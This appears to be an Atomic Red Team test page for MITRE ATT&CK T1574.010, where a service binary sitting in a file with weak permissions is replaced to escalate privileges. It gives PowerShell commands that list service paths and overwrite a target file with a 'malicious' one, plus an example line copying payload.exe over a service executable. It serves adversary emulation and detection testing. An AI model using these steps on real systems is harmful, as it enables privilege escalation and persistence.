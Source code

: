# T1574.010 - Services File Permissions Weakness
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1574.010)
<blockquote>Adversaries may execute their own malicious payloads by hijacking the binaries used by services. Adversaries may use flaws in the permissions of Windows services to replace the binary that is executed upon service start. These service processes may automatically execute specific binaries as part of their functionality or to perform other actions. If the permissions on the file system directory containing a target binary, or permissions on the binary itself are improperly set, then the target binary may be overwritten with another binary using user-level permissions and executed by the original process. If the original process and thread are running under a higher permissions level, then the replaced binary will also execute under higher-level permissions, which could include SYSTEM.

Adversaries may use this technique to replace legitimate binaries with malicious ones as a means of executing code at a higher permissions level. If the executing process is set to run at a specific time or during a certain event (e.g., system bootup) then this technique can also be used for persistence.</blockquote>

## Atomic Tests

- [Atomic Test #1 - File System Permissions Weakness](#atomic-test-1---file-system-permissions-weakness)


<br/>

## Atomic Test #1 - File System Permissions Weakness
This test to show checking file system permissions weakness and which can lead to privilege escalation by replacing malicious file. Example; check weak file permission and then replace.
powershell -c "Get-WmiObject win32_service | select PathName"   (check service file location) and
copy /Y C:\temp\payload.exe C:\ProgramData\folder\Update\weakpermissionfile.exe   ( replace weak permission file with malicious file )

Upon execution, open the weak permission file at %temp%\ T1574.010_weak_permission_file.txt and verify that it's contents read " T1574.010 Malicious file". To verify
the weak file permissions, open File Explorer to%temp%\ T1574.010_weak_permission_file.exe then open Properties and Security to view the Full Control permission is enabled.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| malicious_file | File to replace weak permission file with | path | $env:TEMP&#92; T1574.010&#92; T1574.010_malicious_file.txt|
| weak_permission_file | check weak files permission | path | $env:TEMP&#92; T1574.010_weak_permission_file.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
Get-WmiObject win32_service | select PathName
Copy-Item #{malicious_file} -Destination #{weak_permission_file} -Force
```

#### Cleanup Commands:
```powershell
Remove-Item #{weak_permission_file} -Force -ErrorAction Ignore
Remove-Item -Recurse (Split-Path #{malicious_file}) -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: A file must exist on disk at specified location (#{weak_permission_file})
##### Check Prereq Commands:
```powershell
if (Test-Path #{weak_permission_file}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item #{weak_permission_file} -Force | Out-Null
Set-Content -Path #{weak_permission_file} -Value " T1574.010 Weak permission file"
```
##### Description: A file to replace the original weak_permission_file. In an attack this would be the malicious file gaining extra privileges
##### Check Prereq Commands:
```powershell
if (Test-Path #{malicious_file}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory -Path $env:TEMP\ T1574.010\ -Force | Out-Null
New-Item #{malicious_file} -Force | Out-Null
Set-Content -Path #{malicious_file} -Value " T1574.010 Malicious file"
```




<br/>
